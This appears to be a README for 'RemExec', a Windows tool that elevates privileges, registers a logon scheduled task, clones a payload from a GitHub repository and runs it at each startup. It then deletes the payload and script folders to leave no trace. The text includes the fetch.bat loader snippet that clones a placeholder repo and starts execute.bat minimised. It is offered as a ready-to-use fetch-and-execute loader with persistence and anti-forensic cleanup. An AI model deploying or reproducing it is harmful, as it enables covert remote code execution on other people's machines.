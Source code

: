 To install it run the "elevate.bat" no admin required for now... It will be required ~3 seconds later :). This will create a task from "fetch.xml" that is visible in Task Scheduler on main page and will be started at user logon!

*create "safe.txt" in "%localappdata%\Programs\RemExec" if installed via installer or in root folder in case of downloaded from here!*
  
  
  
  
  RemExec is a program that is used to download payload from a repository and execute it on a pc at starup!

-At logon a task is scheduled to run and download the payload
  
-It runs itself
  
-After exiting auto-deletes the folder of payload and script leaving no trace!

Costumize the github repo that is used to download the payload from the "fetch.bat" (ONLY FILE THAT CAN BE SAFE TO EDIT)




        @echo off
        call git clone https://github.com/USER/REPOSITORY.git
        start /min execute.bat
        exit
